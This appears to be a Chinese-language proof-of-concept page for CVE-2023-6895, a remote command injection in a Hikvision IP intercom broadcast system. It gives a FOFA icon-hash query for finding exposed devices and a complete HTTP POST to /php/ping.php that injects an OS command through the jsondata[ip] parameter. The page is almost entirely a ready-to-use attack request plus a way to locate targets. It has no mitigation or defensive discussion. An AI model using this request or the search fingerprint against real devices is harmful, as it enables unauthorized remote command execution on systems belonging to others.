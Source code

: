 ## 海康威视CVE-2023-6895 IP网络对讲广播系统远程命令执行
海康威视对讲广播系统3.0.3_20201113_RELEASE(HIK)存在漏洞。它已被宣布为关键。该漏洞影响文件/php/ping.php 的未知代码。使用输入 netstat -ano 操作参数 jsondata[ip] 会导致 os 命令注入。

## fofa
```
icon_hash="-1830859634"
```

## poc
```
POST /php/ping.php HTTP/1.1
Host: xxx.xxx.xxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 45
Origin: http://xxx.xxx.xxx
Connection: close
Referer: http://xxx.xxx.xxx/html/system.html
X-Forwarded-For: 127.0.0.1

jsondata[type]=3&jsondata[ip]=ipconfig
```
![0a7e02e1600a63bf856d6581f918b036](../../images/7f52597a-bcb4-402e-89fe-c0682cb61d40.png)
